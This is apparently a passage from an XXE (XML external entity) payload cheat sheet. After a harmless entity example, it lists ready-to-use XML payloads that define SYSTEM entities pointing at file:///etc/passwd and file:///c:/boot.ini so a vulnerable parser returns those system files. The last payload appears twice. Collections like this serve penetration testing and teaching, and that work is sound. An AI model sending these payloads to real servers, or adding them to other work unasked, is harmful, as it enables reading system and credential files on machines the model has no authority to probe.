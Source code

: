 Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

### **Exploiting XXE to retrieve files**

#### **Classic XXE**

We try to display the content of the file `/etc/passwd`

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

⚠️ `SYSTEM` and `PUBLIC` are almost synonym.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```
